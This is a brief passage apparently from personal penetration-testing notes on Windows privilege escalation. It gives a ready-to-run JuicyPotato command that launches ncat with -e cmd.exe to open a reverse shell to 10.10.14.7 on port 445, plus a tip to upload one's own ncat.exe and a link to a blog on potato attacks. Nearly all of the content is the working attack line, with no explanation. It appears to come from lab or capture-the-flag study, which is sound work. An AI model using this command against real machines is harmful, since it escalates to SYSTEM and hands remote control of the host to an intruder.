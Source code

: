 ![img](https://github.com/akshadjoshi/JARVIS/blob/main/windows/images/Pasted%20image%2020231129235234.png)


**on the box**
```powershell
.\JuicyPotato.exe -l 443 -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\Downloads\ncat.exe -e cmd.exe 10.10.14.7 445" -t *
```

**note**: `transfer your own ncat.exe`

**good blog on potato attacks** - https://hideandsec.sh/books/windows-sNL/page/in-the-potato-family-i-want-them-all
